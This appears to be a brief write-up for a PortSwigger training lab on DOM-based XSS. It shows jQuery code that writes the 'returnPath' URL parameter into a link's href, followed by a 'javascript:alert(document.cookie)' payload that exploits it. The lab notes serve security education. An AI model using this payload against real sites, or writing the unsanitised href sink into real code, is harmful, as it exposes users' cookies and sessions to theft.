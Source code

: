 # [DOM XSS: jQuery Anchor `href` Attribute Sink Using `location.search` Source](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)

Vulnerable:

```javascript
$(function() {
  $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```

Payload: `/feedback?returnPath=javascript:alert(document.cookie)`